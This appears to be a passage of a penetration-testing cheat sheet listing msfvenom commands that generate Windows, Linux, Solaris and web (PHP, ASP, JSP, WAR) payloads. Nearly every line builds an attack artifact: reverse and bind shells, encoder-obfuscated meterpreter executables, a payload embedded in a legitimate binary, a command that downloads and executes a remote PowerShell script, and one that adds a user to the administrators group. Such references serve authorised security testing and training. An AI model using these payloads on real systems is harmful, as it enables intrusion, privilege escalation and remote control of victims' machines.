 ```bash

# execute command 
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe

# encoder
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe

# embedded inside executable
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
```

## linux

```bash
# reverse shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf

# bind shell
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf

# SunOS(Solaris)
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
```
## web based

```bash
# php reverse shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

# Asp/x reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx

# jsp reverse shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp

# war reverse shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```

## Script language
